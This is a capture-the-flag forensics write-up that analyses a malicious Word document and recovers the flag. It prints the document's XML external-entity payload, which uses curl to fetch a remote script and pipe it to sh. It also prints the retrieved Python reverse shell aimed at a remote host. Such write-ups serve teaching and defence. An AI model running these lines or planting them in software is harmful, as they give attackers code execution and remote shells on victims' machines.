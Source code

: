 # Out of Office - Forensics - 328 points - 40 solves
> While everyone was out on sick leave, someone took the opportunity to pwn our
> servers, since nobody was around to keep an eye out for sketchy emails. We
> traced the hack back to one user's computer, this document was the only thing
> out of place...
### Files
- [hacked.docx](hacked.docx)

Docx files are simply zip files containing xml files so we can unzip the docx file using `unzip hacked.docx -d hacked`. We get a whole bunch of files but one can predict that the content will be in customXml/ or just keep searching until they get lucky. The file we want to look at is customXml/item1.xml

```xml
<?xml version="1.0" ?>
<!DOCTYPE l33t [
<!ELEMENT l33t ANY [
<!ENTITY % hacktheplanet SYSTEM "expect://curl$IFS'pastebin.com/raw/puTaMkNR$IFS|sh'">%hacktheplanet;]>
<r>&exfil;</r>
```

This xml file is trying to exploit the document reader by running the shell script located at `pastebin.com/raw/puTaMkNR`. If we try visit the site you can see that the page no longer exists. Clearly the pastebin has expired/been deleted so we can't see what would be run. In order to find out what used to be stored on the pastebin we can use the [Internet Archive](https://web.archive.org/web/20200301220511/pastebin.com/raw/puTaMkNR). So the script turns out to be:
```sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("1.3.3.7",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' # all the 1337 hackers have a signature right? SGFja1RyaW5pdHl7QWxXQHk1X0MxM2FOX1VwX0BmdDNyX3kwdVJfSEBjazV9Cg==
```

Base64 decode the signature to get the flag: HackTrinity{AlW@y5_C13aN_Up_@ft3r_y0uR_H@ck5}